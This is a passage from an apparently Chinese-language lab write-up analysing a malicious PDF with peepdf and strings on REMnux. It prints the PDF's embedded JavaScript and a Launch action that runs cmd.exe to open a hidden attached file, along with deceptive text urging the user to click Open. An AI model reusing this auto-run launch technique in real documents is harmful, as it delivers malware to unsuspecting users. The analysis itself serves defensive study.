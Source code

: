 
**`advert.pdf`有六(6)种不同类别的可疑元素。接下来，我在这个 PDF 文档中转储了 JavaScript 和任何潜在的统一资源标识符(参见 [Berners-Lee 2005](https://www.rfc-editor.org/rfc/rfc3986) ):**

```
**remnux@thm-remnux:~/Tasks/3$ peepdf -C "extract js > advert.js" advert.pdf
remnux@thm-remnux:~/Tasks/3$ cat advert.js**
// peepdf comment: Javascript code located in object 27 (version 2)

this.exportDataObject({
    cName: "notsuspicious",
    nLaunch: 0
});**remnux@thm-remnux:~/Tasks/3$ peepdf -C "extract uri > advert.uri.txt" advert.pdf
remnux@thm-remnux:~/Tasks/3$ cat advert.uri.txt
remnux@thm-remnux:~/Tasks/3$**
```

**似乎可能有一些可执行代码和动态脚本与这个 PDF 文件和`notsuspicious.pdf`相关联，所以我将使用`strings`实用程序( [Linux 手册页 n.d.](https://linux.die.net/man/1/strings) )转储这两个 PDF 文档的字符串:**

```
**remnux@thm-remnux:~/Tasks/3$ strings advert.pdf**
%PDF-1.7
1 0 obj
<</Type/Catalog/Pages 2 0 R/Lang(en-GB) /StructTreeRoot 10 0 R/MarkInfo<</Marked true>>/Metadata 20 0 R/ViewerPreferences 21 0 R>>
endobj
2 0 obj

[... snip ...]

#5/PT3
eR~j
endstream
endobj
27 0 obj
<</S/JavaScript/JS(this.exportDataObject({ cName: "notsuspicious", nLaunch: 0 });)/Type/Action>>
endobj
28 0 obj
<</S/Launch/Type/Action/Win<</F(cmd.exe)/D(c:\\windows\\system32)/P(/Q /C %HOMEDRIVE%&cd %HOMEPATH%&(if exist "Desktop\\notsuspicious.pdf" (cd "Desktop"))&(if exist "My Documents\\notsuspicious.pdf" (cd "My Documents"))&(if exist "Documents\\notsuspicious.pdf" (cd "Documents"))&(if exist "Escritorio\\notsuspicious.pdf" (cd "Escritorio"))&(if exist "Mis Documentos\\notsuspicious.pdf" (cd "Mis Documentos"))&(start notsuspicious.pdf)
To view the encrypted content please tick the "Do not show this message again" box and press Open.)>>>>
endobj
1 0 obj
<</Type/Catalog/Pages 2 0 R/Names 23 0 R/OpenAction 27 0 R/Lang(en-GB) /StructTreeRoot 10 0 R/MarkInfo<</Marked true>>/Metadata 20 0 R/ViewerPreferences 21 0 R>>
endobj
3 0 obj
<</Type/Page/Parent 2 0 R/Resources<</Font<</F1 5 0 R>>/ExtGState<</GS7 7 0 R/GS8 8 0 R>>/ProcSet[/PDF/Text/ImageB/ImageC/ImageI] >>/MediaBox[ 0 0 595.32 841.92] /Contents 4 0 R/Group<</Type/Group/S/Transparency/CS/DeviceRGB>>/Tabs/S/StructParents 0/AA<</O 28 0 R>>>>

[... snip ...]

**remnux@thm-remnux:~/Tasks/3$ strings notsuspicious.pdf**
%PDF-1.7
1 0 obj
/Type /Catalog
/Pages 2 0 R
/Lang (en-GB)
/StructTreeRoot 3 0 R
/MarkInfo <<
```
